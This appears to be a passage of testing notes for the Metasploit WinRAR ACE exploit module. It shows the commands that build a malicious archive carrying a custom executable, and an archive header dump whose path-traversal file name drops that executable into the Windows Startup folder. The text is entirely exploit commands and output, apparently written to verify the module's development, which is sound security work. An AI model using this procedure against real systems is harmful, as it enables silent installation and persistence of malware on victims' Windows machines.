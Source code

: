 ### Test with custom payload, no additional files in archive
Custom payload to be used:
```
msfdev2@automata:~$ ls -la | grep abcdef.exe
-rw-r--r--  1 msfdev2 msfdev2   73802 Apr 16 22:11 abcdef.exe
msfdev2@automata:~$ 
```

Output from Metasploit:
```
msf5 exploit(windows/fileformat/winrar_ace) > set CUSTFILE /home/msfdev2/abcdef.exe
CUSTFILE => /home/msfdev2/abcdef.exe
msf5 exploit(windows/fileformat/winrar_ace) > set FILENAME msf2.ace
FILENAME => msf2.ace
msf5 exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.79.1
LHOST => 172.16.79.1
msf5 exploit(windows/fileformat/winrar_ace) > exploit

[*] Using a custom payload: abcdef.exe
[*] Payload filename: abcdef.exe
[+] msf2.ace stored at /home/msfdev2/.msf4/local/msf2.ace
msf5 exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/msf2.ace
volume
    filename    .msf4/local/msf2.ace
    filesize    73972
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x14c6
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0x6735f66e
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\abcdef.exe'
    comment     b''
    ntsecurity  b''
```